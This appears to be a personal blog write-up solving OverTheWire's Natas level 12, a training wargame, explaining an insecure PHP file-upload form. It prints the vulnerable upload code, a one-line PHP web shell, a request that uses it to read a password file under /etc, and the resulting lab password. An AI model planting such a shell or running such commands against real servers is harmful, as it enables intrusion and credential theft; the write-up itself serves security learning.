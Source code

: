 +++
title = "Level 12"
date = 2025-03-27T14:45:00+01:00
draft = false
+++

-   State "DONE"       from              <span class="timestamp-wrapper"><span class="timestamp">[2025-03-27 Thu 14:45]</span></span>

<http://natas12.natas.labs.overthewire.org/>

This one took me quite a while to figure out using several tutorials from different websites. First we see an upload dialogue allowing us to upload a JPEG file.

{{< figure src="/ox-hugo/clipboard-20250310T165111.png" >}}


## Background {#background}

If a webpage allows to upload files, the developer has to make sure that the backend checks appropriately for filetypes and malicious intent. So here I assume that no proper checking is done and we can do something malicious.


## Testing the upload functionality {#testing-the-upload-functionality}

The file supposedly has to be very small, so let's try and upload a one-pixel JPEG. This works - so let's try if we can break the dialogue and upload something else, e.g. a file that is bigger or has a different extension.

Uploading a bigger file throws an error, so apparently there is some checking for size. We can also see this looking at the source code from line 24:

```web { linenos=true, linenostart=1 }
<html>
    <head>
        <!-- This stuff in the header has nothing to do with the level -->
        <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
        <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
        <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
        <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
        <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
        <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
        <script>var wechallinfo = { "level": "natas12", "pass": "<censored>" };</script></head>
    <body>
        <h1>natas12</h1>
        <div id="content">
            <?php

            function genRandomString() {
            $length = 10;
            $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
            $string = "";

            for ($p = 0; $p < $length; $p++) {
            $string .= $characters[mt_rand(0, strlen($characters)-1)];
            }

            return $string;
            }

            function makeRandomPath($dir, $ext) {
            do {
            $path = $dir."/".genRandomString().".".$ext;
            } while(file_exists($path));
            return $path;
            }

            function makeRandomPathFromFilename($dir, $fn) {
            $ext = pathinfo($fn, PATHINFO_EXTENSION);
            return makeRandomPath($dir, $ext);
            }

            if(array_key_exists("filename", $_POST)) {
            $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


            if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
            echo "File is too big";
            } else {
            if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
            } else{
            echo "There was an error uploading the file, please try again!";
            }
            }
            } else {
            ?>

            <form enctype="multipart/form-data" action="index.php" method="POST">
                <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
                <input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
                Choose a JPEG to upload (max 1KB):<br/>
                <input name="uploadedfile" type="file" /><br />
                <input type="submit" value="Upload File" />
            </form>
            <?php } ?>
            <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
        </div>
    </body>
</html>
```

Now let's try and upload a file with a different or without an extension. So create a file with a different extension `touch webshell.php` and try and upload it (leave it empty for now):

{{< figure src="/ox-hugo/clipboard-20250313T095932.png" >}}

So this seems to work, however we get a random jpg file back. This is no good as it won't allow us to use the webshell. So let's take a step back and look at the sourcecode again to understand what is happening here.


## Bypassing random Renaming {#bypassing-random-renaming}

```php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
```

The `genRandomString()` function creates a random 10 character string. This random string gets used in the `makeRandomPath()` function here, which  creates a random path using `$dir`, a random string and `$ext`. We can ignore the directory and the random string, as the only thing we care here is the file extension. So let's try and understand where the extension is coming from.

```php
  function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```

The next function `makeRandomPathFromFilename()` is where it gets interesting: This extracts the file extension from a provided filename and uses it to create a random path.

```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```

Then there is some checking for filesize and a function to move the file to a random location. The first line checks if a file has been submitted. If so, it checks for size and generates a random filename if everything is "in order".

```php { linenos=true, linenostart=1 }
if(array_key_exists("filename", $_POST)) {
  $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
  if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
  echo "File is too big";
  }
  if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
  echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
  } else {
  echo "There was an error uploading the file, please try again!";
  }
}
```

If `$_POST["filename"]` does not exist, the script displays the upload form. This is where things get interesting in line three: here a random string with a `*.jpg` extension is generated.

```web
<form enctype="multipart/form-data" action="index.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
    <input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
    Choose a JPEG to upload (max 1KB):<br/>
    <input name="uploadedfile" type="file" /><br />
    <input type="submit" value="Upload File" />
</form>
```

So here we have the `filename` that is used to `makeRandomPathFromFilename` in line 2 of the checking procedure above. Now if we use our developer tools in our browser to change the extension here to `*.php` instead of `*.jpg` we are greeted with a different submission dialogue:

{{< figure src="/ox-hugo/clipboard-20250316T155419.png" >}}


## Upload web shell {#upload-web-shell}

Great! Now we only need to upload a small php webshell instead of the empty file so far:

```php
<?php system($_GET['cmd']); ?>
```

We can then pass a parameter to the shell using the path created earlier and `?cmd=`:
`http://natas12.natas.labs.overthewire.org/upload/y0s5e89ek0.php?cmd=cat%20/etc/natas_webpass/natas13`

-   trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC


## Security implications {#security-implications}

-   Checking for file size is fine, but not enough at all
-   If you check for proper file type, do not do so using hard-coded and easy to manipulate html variables.
